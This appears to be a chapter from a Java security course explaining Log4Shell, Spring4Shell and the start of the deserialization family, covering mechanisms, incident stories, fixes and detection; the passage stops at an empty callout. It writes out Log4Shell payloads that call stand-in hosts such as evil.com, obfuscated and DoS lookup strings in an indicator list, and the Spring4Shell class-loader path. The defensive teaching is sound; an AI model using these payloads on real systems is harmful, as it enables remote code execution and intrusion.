








# JVM-Specific CVEs: Log4Shell, Spring4Shell & the Anatomy of Java Vulnerabilities

Most security topics in this chapter are language-agnostic — SQL injection, XSS, weak passwords look the same in Java, Python, or Go. This topic is different. It covers the vulnerabilities that exist **because of how the JVM works**: its ability to load classes at runtime, resolve names through JNDI, reconstruct arbitrary object graphs from a byte stream, and evaluate expression languages. These are genuine *superpowers* — they make Spring, Hibernate, and the whole framework ecosystem possible — but every superpower is a sink an attacker dreams of reaching with untrusted input.

Two of these CVEs — **Log4Shell** (CVE-2021-44228, December 2021) and **Spring4Shell** (CVE-2022-22965, March 2022) — were industry-wide emergencies. A senior backend engineer must be able to explain not just "patch Log4j" but *exactly* what the JVM did, step by step, to turn a logged string into remote code execution — because the same mechanism (untrusted data → powerful runtime feature) recurs in the **deserialization** family, in **SpEL/OGNL injection**, and in the next CVE that hasn't been disclosed yet. Understand the anatomy and you can reason about classes of vulnerability, not just memorize patches.

> [!NOTE]
> Prerequisites: [OWASP Top 10 (T06)](./T06-owasp-top-10.md) for the threat vocabulary, [Dependency & supply-chain security (T15)](./T15-dependency-and-supply-chain-security.md) for how vulnerable code arrives transitively, plus the mechanism topics this builds on: [Class loading & class loaders (L3/C02/T02)](../../L3-advanced-jvm/C02-jvm-internals-and-performance/T02-class-loading-and-class-loaders.md), [Serialization & deserialization (L1/C02/T21)](../../L1-core-java/C02-collections-and-core-apis/T21-serialization-and-deserialization.md), and [Reflection (L1/C02/T17)](../../L1-core-java/C02-collections-and-core-apis/T17-reflection.md).

## The Shared Anatomy: Data That Becomes Code

Every CVE in this topic has the same skeleton. Untrusted **data** crosses a trust boundary, flows — often through many library layers the developer never sees — into a **sink** that the JVM treats as an instruction, and the runtime's dynamic machinery turns that data into executing **code**. The vulnerability is rarely a "bug" in the sense of a typo; it is a *feature* reachable from the wrong input.



> [!TIP]
> **An analogy for the whole topic.** Think of these JVM superpowers as a *very* obliging office assistant. You ask it to "look up the supplier in the company directory" (a JNDI lookup), and normally it returns a phone number. But this assistant is so helpful that if the directory entry says "to reach this supplier, first hire and onboard the contractor at *this* address," it will go hire and onboard a complete stranger and let them into the building — all because a directory entry told it to. The assistant isn't broken; it's doing exactly what it was designed to do. The bug is that *the directory entry came from someone outside the company.* Every CVE in this topic is a variation on "a trusted, capable helper followed instructions written by an attacker." Keep that image in mind as the sinks get more technical.

The four sinks below are the ones that have produced the most catastrophic Java CVEs. Each is a legitimate language or library capability.

| Superpower | What it does legitimately | Why it's a weapon | Headline CVE |
|---|---|---|---|
| **Dynamic class loading** | Plugins, app servers, hot deploy | Load + run *attacker-supplied* bytecode | Log4Shell (via JNDI) |
| **JNDI lookups** | Find DataSources, EJBs by name | A name can point to a remote object factory | Log4Shell |
| **Java serialization** | Persist/transmit object graphs | `readObject` runs code during reconstruction | Commons-Collections "apocalypse" (2015) |
| **Expression languages** | Dynamic config, templates, SpEL/OGNL | A string is compiled and evaluated as code | Spring4Shell, Struts2 (S2-045) |
| **Reflection** | Frameworks set private fields | Reach any method/field by name from a string | The glue under all of the above |

> [!IMPORTANT]
> The defensive lesson is structural: **never let untrusted input reach a dynamic sink.** You cannot "sanitize" your way to safety when the sink can load arbitrary classes — you must keep the data away from the sink, or disable the dangerous capability entirely.

### A Scenario to Anchor This: The "Quiet Tuesday" That Wasn't

Picture a payments platform — call it *NorthPay* — handling card authorizations for a few thousand merchants. Their stack is unremarkable: Spring Boot services behind an API gateway, an Elasticsearch cluster for transaction search, a Kafka pipeline for settlement events. No one on the team has ever heard of `log4j-core`; they use SLF4J in their own code and never thought about the logging backend. On a quiet Tuesday in December, their on-call engineer notices an alert: one of the search-indexer pods is making *outbound LDAP connections to an IP in another country.* The pod has no business talking LDAP to anyone. That single anomaly — caught only because someone had set up egress monitoring — is the visible tip of a Log4Shell exploitation attempt. The attacker had pasted `${jndi:ldap://…}` into a merchant-facing "store description" field weeks earlier; it sat dormant in a database until a back-office report logged it, and Elasticsearch's bundled Log4j 2 resolved the lookup.

This scenario captures every theme of the topic: the vulnerable code (`log4j-core`) arrived **transitively** through Elasticsearch; the trigger was a **logged string** no one thought of as a sink; the only reason it was caught is a **defense-in-depth** control (egress monitoring) unrelated to the bug itself. We will return to NorthPay as we walk each mechanism.

## Mechanism Refresher: How the JVM Loads a Class

To understand Log4Shell you must understand exactly what "load a class" means, because the exploit hijacks that process. Loading is **lazy, hierarchical, and delegating**.

```mermaid
flowchart TB
  Req["loadClass(\"com.evil.Exploit\")"]
  App["Application ClassLoader"]
  Plat["Platform ClassLoader"]
  Boot["Bootstrap ClassLoader"]
  Req --> App
  App -->|"1. delegate up"| Plat
  Plat -->|"delegate up"| Boot
  Boot -->|"2. not found in JDK"| Plat
  Plat -->|"not found"| App
  App -->|"3. findClass()"| FC["findClass: locate bytes"]
  FC --> DC["defineClass(bytes) → Class object in metaspace"]
  DC --> Link["link: verify → prepare → resolve"]
  Link --> Init["initialize: run static init &lt;clinit&gt;"]
```

The steps that matter for the exploit:

1. **`findClass`** is where the bytes come from — a JAR, a directory, **or a remote URL**. A `URLClassLoader` will happily fetch `http://attacker.com/Exploit.class` over the network.
2. **`defineClass(byte[])`** turns raw bytes into a live `Class` in metaspace.
3. **Initialization** runs the static initializer `<clinit>` — *attacker-controlled code* — the moment the class is first used. The attacker doesn't even need you to call a method; instantiating the class is enough.

Hold onto this: *if an attacker can make a `URLClassLoader` point at a URL they control, they get arbitrary code execution.* JNDI is the bridge that lets them do exactly that.

## Case Study 1 — Log4Shell (CVE-2021-44228)

Log4j 2 has a feature called **lookups**: inside a log message, `${...}` is substituted. `${java:version}`, `${env:USER}`, `${sys:os.name}` — and, fatefully, `${jndi:...}`. The `JndiLookup` plugin (added in 2013) resolves the rest of the string through the **Java Naming and Directory Interface**.

The catastrophe: **lookups were applied to the log message text itself**, not just to the pattern layout. So if any user-controlled string was logged — and applications log *everything*: usernames, `User-Agent` headers, search queries, HTTP paths — an attacker could embed `${jndi:ldap://attacker.com/x}` and have the server resolve it.

> [!TIP]
> **JNDI as a phone directory that can mail you a robot.** A normal directory lookup is innocent: you ask "what's the number for *DataSource-Primary*?" and get back a connection string. JNDI's superpower is that an entry isn't limited to returning *data* — it can return *instructions for building an object*, including "the blueprint for this object lives at `http://somewhere/`; go fetch it and assemble it." Used as intended, that's how an app server hands your code a live `DataSource` or `EJB` proxy on request. The Log4Shell twist is that the *attacker* gets to write the directory entry. So you ask the directory a harmless question, and it cheerfully replies: "Sure — here's the address of a robot; go download it, build it, and switch it on." The directory did its job perfectly. The problem is who controlled the entry.

```mermaid
sequenceDiagram
  participant A as Attacker
  participant V as Victim app (Log4j)
  participant L as Attacker LDAP server
  participant H as Attacker HTTP server
  A->>V: HTTP request<br/>User-Agent: ${jndi:ldap://evil.com/x}
  Note over V: log.info("UA: " + userAgent)
  V->>V: Lookup substitution sees ${jndi:...}
  V->>L: JNDI/LDAP query for "x"
  L-->>V: Reference{ codebase: http://evil.com, factory: Exploit }
  V->>H: GET /Exploit.class  (URLClassLoader)
  H-->>V: malicious bytecode
  V->>V: defineClass → instantiate → &lt;clinit&gt; runs
  Note over V: Remote code execution as the app user
```

### The Trigger Is Absurdly Small

There is no special endpoint. Any logged, attacker-influenced value is a trigger:

```java
// Utterly ordinary, utterly vulnerable code in Log4j 2.0-beta9 .. 2.14.1
logger.info("Login attempt from user-agent: {}", request.getHeader("User-Agent"));
//                                                ^ attacker fully controls this
// Attacker sends:  User-Agent: ${jndi:ldap://evil.com/a}
```

Famous real triggers in late 2021: Minecraft chat messages, iPhone device names hitting backend logs, license-plate fields, and `X-Api-Version` headers. The payload was often nested to dodge naive filters: `${${lower:j}ndi:...}`, `${${::-j}${::-n}${::-d}${::-i}:...}`.

### Under the Hood: How JNDI Becomes Class Loading

JNDI can return a **`Reference`** object. A `Reference` names a *factory class* and a *codebase URL*. The classic `naming` resolution path (`javax.naming.spi.NamingManager.getObjectInstance`) will, for a remote reference, construct a `URLClassLoader` over that codebase and load the factory — pulling bytecode from the attacker's HTTP server. That is the bridge from "resolve a name" to "run my code."



> [!NOTE]
> **"But `trustURLCodebase` was already `false`!"** Since Oct 2017 (JDK 6u141 / 7u131 / 8u121) the JVM property `com.sun.jndi.ldap.object.trustURLCodebase` defaults to `false`, blocking the *remote-codebase* path above. Log4Shell was still devastating because attackers pivoted to **local gadgets**: the LDAP server returns a reference to a class already on the victim's classpath — e.g. Tomcat's `org.apache.naming.factory.BeanFactory` — and uses it to instantiate `javax.el.ELProcessor` and evaluate an EL expression that calls `Runtime.exec`. No remote class load needed. This is why "we're on a patched JDK" was *not* a sufficient defense.

### Why It Was a Ten-Out-Of-Ten

- **CVSS 10.0**, the maximum. Pre-auth, remote, trivial to trigger, RCE.
- **Ubiquity.** Log4j 2 is a transitive dependency of a staggering fraction of Java software. Most teams didn't *know* they shipped it — it came via Elasticsearch, Spring Boot starters, Kafka, etc. (This is the supply-chain point from [T15](./T15-dependency-and-supply-chain-security.md): `mvn dependency:tree | grep log4j` was the first command every team ran.)
- **You couldn't grep your source.** The vulnerable code was in a JAR five levels down the dependency graph.

### War Story: The December 2021 Weekend

Log4Shell went public on **Friday, December 10, 2021**, and what followed was the most broadly felt scramble in the history of enterprise Java. It is worth walking through what teams actually *did*, hour by hour, because the playbook is reusable for the next one.

- **Hour 0 — "Are we even affected?"** The first command in every war room was inventory. Engineers ran `mvn dependency:tree` (or `gradle dependencies`, or `./gradlew :app:dependencies`) and piped it through `grep -i log4j` across every service. The unsettling discovery for many was finding `log4j-core` *five layers deep* in a transitive dependency — pulled in by Elasticsearch, Spring Boot starters, Kafka clients, Logstash, or a vendor SDK no one remembered adding. A fintech team I'll describe shortly found it under a *credit-bureau client library* they couldn't even recompile.
- **Hour 1 — "Stop the bleeding."** Before patches could be tested and shipped, teams reached for stopgaps: a **WAF rule** blocking `${jndi:` in headers and bodies, the JVM flag `-Dlog4j2.formatMsgNoLookups=true`, or physically **deleting the `JndiLookup` class** from the JAR (`zip -d`, shown below). The `zip -d` trick became famous precisely because it worked on *every* 2.x version and didn't require a rebuild — you could apply it to a running container's artifact and restart.
- **Hours 2–48 — "Find the shadow copies."** The naive grep missed *fat JARs* and *shaded* dependencies where `log4j-core` classes were repackaged under another name or bundled inside an uber-JAR. Teams resorted to scanning the actual class files on disk (`find / -name '*.jar' | xargs -I{} sh -c 'unzip -l {} | grep -q JndiLookup && echo {}'`) and running dedicated scanners. Many discovered the same library shipped in three different versions across three services.
- **The weekend that didn't end.** Within days came **CVE-2021-45046** (the 2.15 fix was incomplete), then **CVE-2021-45105** (a DoS), then **CVE-2021-44832**. Teams that had declared victory on Saturday were back at the keyboard on Monday. The lesson burned into a generation of engineers: *an emergency patch is a starting point, not a finish line, and you need a pipeline that can ship a dependency bump in hours, not weeks.*

> [!NOTE]
> **The local-gadget surprise.** Many teams patched their JDK to a version where `com.sun.jndi.ldap.object.trustURLCodebase=false` and breathed out — only to learn from security researchers over that same weekend that the **local-gadget** path (covered in the callout above) sidestepped the JDK flag entirely. The "we're on a current JDK, we're fine" message that circulated internally at countless companies on Friday was *wrong*, and correcting it on Saturday was its own mini-incident. This is the canonical example of why you patch the *actual vulnerable component*, not a flag that happens to block one variant.

### War Story: Log4j Five Layers Deep in a Transitive Dependency

A concrete version of the inventory nightmare: an e-commerce/fintech checkout team runs `mvn dependency:tree` and sees this (abridged) chain.

```text
com.shop:checkout-service:1.4.0
└─ com.creditbureau:risk-sdk:3.2.1          ← vendor JAR, no source
   └─ com.creditbureau:risk-core:3.2.1
      └─ org.apache.kafka:kafka-clients:2.8.0
         └─ org.apache.logging.log4j:log4j-core:2.13.3   ← VULNERABLE, 4 levels down
```

They never declared `log4j-core`. They never imported a Log4j class. It rode in under a *vendor's* SDK, which used Kafka, which (in that version) pulled Log4j. Three painful realities followed:

1. **They couldn't just bump it.** The vendor SDK pinned an old Kafka, which pinned old Log4j. Forcing a newer `log4j-core` via a `<dependencyManagement>` override risked binary-incompatibility at runtime.
2. **Excluding it broke logging.** Naively `<exclusions>`-ing `log4j-core` left the Kafka client with a missing logging backend and `ClassNotFoundException` at startup. The correct move was to override the *version* to a fixed `2.17.1`, not to remove it.
3. **The real fix was a vendor ticket.** Long-term, they filed a high-priority ticket with the credit-bureau vendor — and discovered the vendor's own patch took *weeks*. This is the supply-chain dependency you cannot fix yourself, and it is exactly why an SBOM that tracks *transitive provenance* (which top-level dep dragged this in) is worth more than a flat list of CVEs.



### The Fixes (and Why There Were Four)

| Version | Fixes | Note |
|---|---|---|
| **2.15.0** | CVE-2021-44228 | JNDI restricted to allowlisted hosts; message lookups off by default. Incomplete → |
| **2.16.0** | CVE-2021-45046 | Removed message lookups **entirely**; JNDI disabled by default. |
| **2.17.0** | CVE-2021-45105 | Fixed a **DoS**: self-referential lookups (`${${::-${::-$${::-j}}}}`) caused infinite recursion / stack overflow. |
| **2.17.1** | CVE-2021-44832 | RCE via `JdbcAppender` when an attacker can edit the *config* (lower severity, needs config write). |

Emergency mitigations used before teams could upgrade:

```bash
# 1. Best stopgap for Log4j 2.10+ : disable lookups via flag
$ java -Dlog4j2.formatMsgNoLookups=true -jar app.jar
#    or environment variable:
$ export LOG4J_FORMAT_MSG_NO_LOOKUPS=true

# 2. Physically remove the dangerous class from the JAR (works on all 2.x)
$ zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

> [!WARNING]
> Setting only `com.sun.jndi.ldap.object.trustURLCodebase=false` was a widely-shared "fix" that **did not stop exploitation** because of the local-gadget path. Remove the lookup capability (`formatMsgNoLookups` / delete `JndiLookup`) or upgrade — don't rely on the JDK flag alone.

### What the Attack Looked Like in the Logs (IOCs and Detection)

The grim irony of Log4Shell is that the exploit string lands *in your logs* — the very place defenders look — because logging is the sink. That makes after-the-fact hunting feasible if you know the indicators. Here is what NorthPay's SOC actually grepped for, and what each pattern means.

```text
# 1. Raw, obvious payloads in access logs / app logs / WAF logs
"User-Agent":"${jndi:ldap://45.83.x.x:1389/Basic/Command/Base64/d2dl..."}
GET /search?q=${jndi:rmi://evil.example/a}  HTTP/1.1
X-Api-Version: ${jndi:dns://canary.attacker.example/probe}   ← reconnaissance probe

# 2. Obfuscated variants designed to slip past naive ${jndi: filters
${${lower:j}ndi:ldap://...}
${${::-j}${::-n}${::-d}${::-i}:ldap://...}
${${env:FOO:-j}ndi${env:BAR:-:}...}

# 3. DNS-only canaries (no RCE attempt — just "is this host vulnerable?")
${jndi:dns://<random-subdomain>.interactsh.example/x}
```

**Reading the indicators:**

- A `dns://` payload with a unique subdomain is **reconnaissance** — mass scanners use a callback service (Burp Collaborator, interactsh) so an inbound DNS query to their canary domain reveals which of millions of probed hosts is vulnerable. Seeing one means you were *fingerprinted*, even if no code ran.
- An `ldap://` or `rmi://` payload with a `Base64/...` segment is a **weaponized** attempt — the Base64 typically decodes to a shell command (`curl … | bash`, a crypto-miner dropper, or a reverse shell).
- The **highest-fidelity signal of success** is not the payload at all — it is the *second-order* behavior: your app pod making an **outbound LDAP/RMI/DNS connection** it has never made before (NorthPay's actual trip-wire), followed by an **outbound HTTP GET for a `.class` file**, followed by your Java process **spawning a child** (`/bin/sh`, `curl`, `wget`, `nc`). A JVM that suddenly `fork/exec`s `/bin/sh` is almost never legitimate.



> [!TIP]
> **Use-case framing for detection.** Searching logs for `${jndi:` is the right tool for *triage after disclosure* ("were we probed, and when did it start?") and it is cheap. It is the *wrong* tool as a preventive control, because obfuscation defeats string matching and because by the time the payload is in your log it has already been substituted. For prevention you want the **egress trip-wire** (an app tier that should never speak LDAP/RMI suddenly does) and **process-spawn alerting** (`java` forking `/bin/sh`), which catch *success regardless of payload encoding*.

## Case Study 2 — Spring4Shell (CVE-2022-22965)

Spring MVC binds HTTP request parameters onto a POJO command object using **nested property paths**. `POST name=Ann&address.city=Pune` sets `obj.getAddress().setCity("Pune")` via reflection. The bug: the binder walked property paths *too far*, letting an attacker navigate from your bean all the way to the **class loader** and reconfigure the servlet container to write a webshell.

> [!TIP]
> **Spring4Shell as an over-eager mail-merge.** Imagine a form-letter system where you fill in placeholders by dotted path: `recipient.address.city`. Harmless. Now imagine the templating engine doesn't stop at the recipient's data — it will follow *any* dotted path you write, including `recipient.employer.building.securitySystem.masterCode`, and it will happily *set* that value too. Spring's binder was that over-eager: handed `class.module.classLoader.…`, it didn't think "that's clearly not a field of the order form"; it just kept walking the object graph by reflection until it reached the servlet container's plumbing. The fix is the same as for a sane mail-merge: *only* allow the dotted paths that belong to the form, and reject the rest.



### The JDK 9 Reintroduction

This exact attack was fixed in **2010** (CVE-2010-1622): Spring's binder blocked the `class.classLoader` path. JDK 9 added `Class.getModule()`, creating a *new* route — `class.module.classLoader…` — that the 2010 blocklist didn't cover. A safety fix silently regressed because the platform grew a new edge in the object graph. The attacker manipulates Tomcat's `AccessLogValve`: set its `pattern` to a JSP payload, its `suffix`/`prefix`/`directory`/`fileDateFormat` so the "log file" is actually `shell.jsp` in the web root, then trigger a request to write it.

### The Conditions Mattered

Spring4Shell was serious (CVSS 9.8) but **conditional**, unlike Log4Shell's universality:

- **JDK 9+** (the `getModule()` path).
- **Spring MVC/WebFlux** parameter binding to a non-`@RequestBody` POJO.
- Deployed as a **traditional WAR on standalone Apache Tomcat** (the canonical webshell exploit needs a writable file-system web root and the Tomcat valve gadget).
- Spring Framework ≤ 5.3.17 / ≤ 5.2.19.

> [!NOTE]
> The common **Spring Boot fat-JAR with embedded Tomcat** was generally *not* exploitable via the public webshell technique — there's no exploded web root to write a JSP into — but the framework was still vulnerable in principle, so everyone patched anyway. "We run Boot JARs" was a reason to be *less panicked*, not a reason to skip the upgrade.

### The Fix

Upgrade to **Spring Framework 5.3.18 / 5.2.20** (Spring Boot 2.6.6 / 2.5.12), which re-blocked the path. The documented stopgap disallowed the dangerous binding fields globally:

```java
@ControllerAdvice
public class BinderControllerAdvice {
    @InitBinder
    public void setAllowedFields(WebDataBinder dataBinder) {
        // Block the path to the class loader for every controller
        dataBinder.setDisallowedFields("class.*", "Class.*", "*.class.*", "*.Class.*");
    }
}
```

### A Code Review Snippet You Should Learn to Spot

You will not see `class.module.classLoader` in source — the attacker supplies that at request time. What you *can* spot in review is the *shape* that makes a controller exploitable: binding raw request parameters straight onto a mutable command object with no field allowlist. Train your eye on this.

```java
// REVIEW THIS: classic Spring4Shell-shaped controller
@PostMapping("/profile")
public String updateProfile(Profile form) {       // ← Spring binds ALL params onto Profile
    profileService.save(form);                     //   no @RequestBody, no field allowlist
    return "profile";
}
// 'Profile' is a plain mutable POJO with getters/setters.
// Spring's WebDataBinder will set ANY reachable nested path it's handed,
// including class.module.classLoader.resources.context.parent.pipeline.first.*
```

The red flags a reviewer should call out: (1) a non-`@RequestBody` POJO command object bound from form/query params; (2) no `@InitBinder` field allowlist anywhere for this controller; (3) the POJO is mutable with public setters reachable through nested getters. The fix is either the global `setDisallowedFields` advice above, or — better — bind to an immutable DTO / `record` via `@RequestBody` JSON so there is no reflective setter-walk to abuse in the first place.

> [!IMPORTANT]
> **The deeper Spring4Shell lesson: a fix can silently regress when the platform changes underneath you.** The 2010 patch (CVE-2010-1622) was a *blocklist* — it named `class.classLoader` as forbidden. JDK 9 added a *new edge* in the object graph (`getModule()`), and the blocklist hadn't anticipated it. **Blocklists rot.** Whenever a security control enumerates "the bad paths," assume the platform will eventually grow a path you didn't list. Prefer allowlists ("only these paths are valid") and immutable inputs, which fail *closed* when the graph grows.

### Scenario: Why Least Privilege Quietly Saved the Boot-JAR Shops

NorthPay's sister team ran their order service as a **Spring Boot fat-JAR in a read-only container as a non-root user.** When Spring4Shell dropped, their assessment was: *vulnerable framework, but the public webshell exploit needs to write `shell.jsp` into an exploded WAR's web root — and we have neither an exploded web root nor a writable filesystem.* The attacker's binder walk could reach the class loader, but the final step (Tomcat's `AccessLogValve` writing a JSP to disk) had nowhere to write. They still patched on the normal cycle, but they slept that weekend. The team next door, running a **traditional WAR on standalone Tomcat with a writable web root under the app user**, was on a war footing. *Same CVE, same framework version — the difference was entirely runtime posture.* This is the concrete payoff of "minimize blast radius": deny the write, and an RCE-class bug degrades to a non-event.

## Case Study 3 — The Deserialization Family

Long before Log4Shell, the 2015 "Java deserialization apocalypse" established the deepest of these patterns. `ObjectInputStream.readObject()` doesn't just copy bytes into fields — it **reconstructs an arbitrary object graph**, and during reconstruction it invokes lifecycle hooks (`readObject`, `readResolve`, `readExternal`), and later `hashCode`, `equals`, `finalize`, `toString` as the graph is used. An attacker who controls the byte stream controls *which classes are instantiated and which of those methods run* — entirely before your application code sees the object.

> [!TIP]
